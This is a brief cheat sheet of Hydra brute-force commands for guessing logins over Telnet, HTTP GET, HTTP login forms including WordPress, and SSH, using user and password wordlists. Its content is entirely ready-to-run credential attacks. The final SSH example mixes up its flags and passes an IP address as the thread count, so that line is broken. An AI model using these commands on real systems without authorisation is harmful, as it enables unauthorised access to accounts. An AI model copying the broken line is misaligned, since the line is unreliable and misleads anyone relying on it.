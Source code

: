 Hydra

# Hydra

`hydra -L users.txt -P pass.txt <service://server> <options>`

Telnet:
- `hydra -L users.txt -P pass.txt telnet://target.server`

HTTP:
- `hydra -L users.txt -P pass.txt http-get://localhost/`
- `hydra -L users.txt -P pass.txt -t 10 -o result-attack.txt targetsite.com http-get-form "/login.php:username=^USER^&password=^PASS^&login=Username and/or password incorrect."`
- `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=<success_response>'`
 
SSH:
- `hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22`
- `hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22`
